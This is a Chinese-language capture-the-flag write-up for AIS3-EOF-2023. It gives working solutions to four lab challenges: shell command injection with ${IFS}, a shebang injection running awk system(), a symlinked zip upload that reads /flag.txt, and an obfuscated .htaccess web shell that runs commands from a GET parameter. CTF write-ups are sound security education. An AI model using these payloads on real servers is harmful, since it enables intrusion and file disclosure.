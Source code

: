 ```yaml
---
layout: post
title: "[CTF] AIS3-EOF-2023 Writeup"
date: 2023-01-08 +0800
categories: CTF
---
```


## Misc

### Washer
nc畫面

![](/images/2023/01/5TXNu9F.png)

隨機生成6個字元，路徑為/tmp/<random*6>

![](/images/2023/01/LkHgvkj.png)

選項1是輸入的內容寫到/tmp/<random*6>

選項2是讀出來

選項3是將輸入的指定檔案的路徑，並執行

![](/images/2023/01/uADO6YZ.png)

![](/images/2023/01/zIZyqd6.png)

解法:

```
選擇1
cat${IFS}/flag
選擇3
/tmp/<random*6>
```

### Execgen

![](/images/2023/01/4y2eNG0.png)

輸入的內容會變成下面這樣，然後執行這個script

```
#!<你輸入的內容>(created by execgen)
```

![](/images/2023/01/MjDD8Wj.png)

解法:

```bash
/usr/bin/awk BEGIN{system("cat /home/chal/flag")}
```


## Web

### Share
網站提供上傳zip檔案

![](/images/2023/01/FrnF7gx.png){:h="50%" w="50%"}

Source
檢查zip內是否包含index.html,並將內容放到/static/<username>/index.html

![](/images/2023/01/1vcNbXM.png)

透過docker-compose.yaml，發現檔案在/flag.txt

![](/images/2023/01/lux3aQ3.png)

使用Symbolic link將./index.html連結到/flag.txt
```bash
ln -s /flag.txt index.html
zip --symlink test.zip index.html
```

### Gist
過濾條件
 - 檔名包含ph
 - 內容包含ph
 - 檔案大小大於 0x100

上傳.htaccess,把.htaccess當成php來執行
```php
<FilesMatch .htaccess>
SetHandler application/x-httpd-p\
hp
Require all granted
p\
hp_flag engine on
</FilesMatch>
p\
hp_value auto_prepend_file .htaccess
#<?=`$_GET[1]`?>
```
## Result
再接再勵ㄅQQ
![](/images/2023/01/Yqnd2ce.png)
